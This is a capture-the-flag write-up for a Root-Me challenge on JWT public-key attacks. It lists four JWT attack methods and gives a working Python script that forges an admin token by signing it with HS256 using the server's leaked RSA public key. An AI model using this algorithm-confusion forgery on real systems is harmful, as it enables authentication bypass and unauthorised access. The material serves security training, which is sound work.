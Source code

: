 # JSON Web Token (JWT) - Public key

**References**:https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Hacking%20JSON%20Web%20Token%20(JWT)%20-%20Rudra%20Pratap.pdf

## Attacking JWT
1. The leakage of sensitive information
2. Modify the algorithm to none
3. Modify the algorithm RS256 to HS256 (leaked public key)
4. HS256 (symmetric encryption) key cracking

**Related tools**: https://github.com/jpadilla/pyjwt

## Exploit
```python
import requests
import jwt # pip install pyjwt==0.4.3

url = 'http://challenge01.root-me.org/web-serveur/ch60/'
s = requests.Session()

r1 = s.get(url+'key') # request lấy public key

public = "\n".join(requests.get(url + "key").json()) + "\n" # join từng phần tử với new-line

token = jwt.encode({"username":"admin"}, key=public, algorithm='HS256') # sign jwt token với pub key
print(token)

headers = {
	'Authorization': 'Bearer ' + token.decode()
}

r = s.post(url+'admin', headers=headers) # request lấy flag

print(r.text)
```
